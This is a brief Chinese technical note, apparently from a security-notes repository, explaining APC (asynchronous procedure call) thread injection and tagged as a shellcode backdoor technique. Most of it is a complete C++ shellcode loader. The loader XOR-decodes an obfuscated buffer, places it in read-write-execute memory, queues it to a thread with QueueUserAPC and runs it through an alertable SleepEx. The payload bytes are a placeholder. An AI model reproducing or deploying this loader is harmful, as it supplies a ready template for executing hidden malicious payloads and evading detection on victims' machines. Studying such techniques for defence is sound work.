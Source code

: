 # APC线程注入

keywords: shellcode backdoor  

APC, Asynchronous Procedure Calls, 异步过程调用，在特定线程的上下文中异步执行函数  
这些函数可以触发异步执行函数调用：  
```r
SleepEx
SignalObjectAndWait
MsgWaitForMultipleObjectsEx
WaitForMultipleObjectsEx
WaitForSingleObjectEx 
```

示例：  
```cpp
#include <stdio.h>
#include <windows.h>
#include <string.h>

int main()
{
    char xor_shell[] = "\x11\x22";

    char* shellcode;
    int shellcode_size = 0;

    for (int i = 0; i < sizeof xor_shell; i++)
    {
        xor_shell[i] ^= 13;
    }

    shellcode = xor_shell;
    shellcode_size = sizeof(xor_shell);

    // 开启一个线程
    HANDLE hthread = OpenThread(16, 0, GetCurrentThreadId());

    // 给现在的进程申请一个可读可执行的内存
    char* buffer = (char*)VirtualAllocEx(GetCurrentProcess(), 0, shellcode_size, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    // 复制内存内容
    CopyMemory(buffer, shellcode, shellcode_size);

    // 将用户模式异步过程调用(APC)对象添加到指定线程的APC队列
    // 这里就是添加到此线程的APC队列
    // 第一个参数是 指向应用程序提供的APC函数的指针，该函数在指定线程执行可警报等待操作时调用
    QueueUserAPC((PAPCFUNC)buffer, hthread, (ULONG_PTR)buffer);

    // 挂起当前线程，直到满足指定条件，超过时间间隔后，执行恢复
    SleepEx(5, 1);

    return 0;
}
```

来源: 初九_9 https://www.bilibili.com/video/BV1Km4y1Z73g  
APC介绍: https://docs.microsoft.com/en-us/windows/win32/sync/asynchronous-procedure-calls  


2022/2/15  
